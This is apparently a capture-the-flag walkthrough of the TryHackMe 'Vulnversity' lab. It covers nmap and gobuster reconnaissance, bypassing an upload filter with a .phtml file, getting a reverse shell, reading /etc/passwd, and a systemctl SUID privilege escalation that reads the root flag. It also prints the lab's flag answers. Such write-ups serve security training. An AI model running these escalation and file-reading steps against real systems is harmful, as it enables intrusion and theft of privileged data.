

Vulnversity
Date: 06, January, 2021
Author: Dhilip Sanjay S
Click Here to go to the TryHackMe room.
Reconnaissance
- nmap is an free, open-source and powerful tool used to discover hosts and services on a computer network.
Scan the box, how many ports are open?
- Answer: 6
Steps to Reproduce:
nmap <MACHINE_IP> Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-06 12:58 IST Nmap scan report for <MACHINE_IP> Host is up (0.21s latency). Not shown: 994 closed ports PORT STATE SERVICE 21/tcp open ftp 22/tcp open ssh 139/tcp open netbios-ssn 445/tcp open microsoft-ds 3128/tcp open squid-http 3333/tcp open dec-notes Nmap done: 1 IP address (1 host up) scanned in 3.24 seconds
What version of the squid proxy is running on the machine?
- Answer: 3.5.12
Steps to Reproduce:
nmap -A <MACHINE_IP> Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-06 13:00 IST Nmap scan report for <MACHINE_IP> Host is up (0.16s latency). Not shown: 994 closed ports PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 3.0.3 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0) | ssh-hostkey: | 2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA) | 256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) |_ 256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519) 139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP) 445/tcp open netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP) 3128/tcp open http-proxy Squid http proxy 3.5.12 |_http-server-header: squid/3.5.12 |_http-title: ERROR: The requested URL could not be retrieved 3333/tcp open http Apache httpd 2.4.18 ((Ubuntu)) |_http-server-header: Apache/2.4.18 (Ubuntu) |_http-title: Vuln University No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint: OS:SCAN(V=7.91%E=4%D=1/6%OT=21%CT=1%CU=31488%PV=Y%DS=2%DC=T%G=Y%TM=5FF5673B OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS( OS:O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11 OS:NW6%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN( OS:R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R= OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F= OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD= OS:S) Network Distance: 2 hops Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel Host script results: |_clock-skew: mean: 1h40m01s, deviation: 2h53m13s, median: 0s |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown) | smb-os-discovery: | OS: Windows 6.1 (Samba 4.3.11-Ubuntu) | Computer name: vulnuniversity | NetBIOS computer name: VULNUNIVERSITY\x00 | Domain name: \x00 | FQDN: vulnuniversity |_ System time: 2021-01-06T02:31:02-05:00 | smb-security-mode: | account_used: guest | authentication_level: user | challenge_response: supported |_ message_signing: disabled (dangerous, but default) | smb2-security-mode: | 2.02: |_ Message signing enabled but not required | smb2-time: | date: 2021-01-06T07:31:01 |_ start_date: N/A TRACEROUTE (using port 443/tcp) HOP RTT ADDRESS 1 163.90 ms 10.8.0.1 2 164.74 ms <MACHINE_IP> OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 48.82 seconds
How many ports will nmap scan if the flag -p-400 was used?
- Answer: 400
- Note:
-p-100- will scan 100 ports.-p100- will scan 100th port.
Using the nmap flag -n what will it not resolve?
- Answer: DNS
- Steps to Reproduce:
- -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
What is the most likely operating system this machine is running?
- Answer: Ubuntu
What port is the web server running on?
- Answer: 3333
Locating Directories using GoBuster
| GoBuster flag | Description |
|---|---|
| -e | Print the full URLs in your console |
| -u | The target URL |
| -w | Path to your wordlist |
| -U and -P | Username and Password for Basic Auth |
| -p |
Proxy to use for requests |
| -c |
Specify a cookie for simulating your auth |
What is the directory that has an upload form page?
- Answer: /internal/
Steps to Reproduce:
gobuster dir -u http://<MACHINE_IP>:3333 -t 100 -w /usr/share/wordlists/dirb/common.txt =============================================================== Gobuster v3.0.1 by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) =============================================================== [+] Url: http://<MACHINE_IP>:3333 [+] Threads: 100 [+] Wordlist: /usr/share/wordlists/dirb/common.txt [+] Status codes: 200,204,301,302,307,401,403 [+] User Agent: gobuster/3.0.1 [+] Timeout: 10s =============================================================== 2021/01/06 13:11:01 Starting gobuster =============================================================== /.htaccess (Status: 403) /.hta (Status: 403) /.htpasswd (Status: 403) /css (Status: 301) /fonts (Status: 301) /images (Status: 301) /index.html (Status: 200) /internal (Status: 301) /js (Status: 301) /server-status (Status: 403) =============================================================== 2021/01/06 13:11:14 Finished ===============================================================
Compromise the web server
Try upload a few file types to the server, what common extension seems to be blocked?
- Answer: .php
- Steps to Reproduce:
- Usually php files are not allowed to be uploaded.
Run this attack, what extension is allowed?
- Answer: .phtml
- Note: The content length is different for phtml and the response shows
Success. 
Reverse shell
What is the name of the user who manages the webserver?
- Answer: bill
- Steps to Reproduce:
$ cat /etc/passwd root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false _apt:x:105:65534::/nonexistent:/bin/false lxd:x:106:65534::/var/lib/lxd/:/bin/false messagebus:x:107:111::/var/run/dbus:/bin/false uuidd:x:108:112::/run/uuidd:/bin/false dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin ftp:x:111:119:ftp daemon,,,:/srv/ftp:/bin/false bill:x:1000:1000:,,,:/home/bill:/bin/bash
What is the user flag?
- Answer:
- Steps to Reproduce:
$ cd /home/bill $ cat user.txt 8bd7992fbe8a6ad22a63361004cfcedb
Privilege Escalation
On the system, search for all SUID files. What file stands out?
- Answer:
- Steps to Reproduce:
$ find / -type f -perm /4000 2>/dev/null /usr/bin/newuidmap /usr/bin/chfn /usr/bin/newgidmap /usr/bin/sudo /usr/bin/chsh /usr/bin/passwd /usr/bin/pkexec /usr/bin/newgrp /usr/bin/gpasswd /usr/bin/at /usr/lib/snapd/snap-confine /usr/lib/policykit-1/polkit-agent-helper-1 /usr/lib/openssh/ssh-keysign /usr/lib/eject/dmcrypt-get-device /usr/lib/squid/pinger /usr/lib/dbus-1.0/dbus-daemon-launch-helper /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic /bin/su /bin/ntfs-3g /bin/mount /bin/ping6 /bin/umount /bin/systemctl /bin/ping /bin/fusermount /sbin/mount.cifs
Become root and get the last flag (/root/root.txt)
- Answer: a58ff8579f0a9270368d33a9966c7fd5
- Steps to Reproduce:
$ TF=$(mktemp).service $ echo '[Service] > Type=oneshot > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output" > [Install] > WantedBy=multi-user.target' > $TF $ /bin/systemctl link $TF Created symlink from /etc/systemd/system/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service. $ /bin/systemctl enable --now $TF Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.2K1Rvcs7BB.service to /tmp/tmp.2K1Rvcs7BB.service. $ cat /tmp/output a58ff8579f0a9270368d33a9966c7fd5- Refer GTFO Bins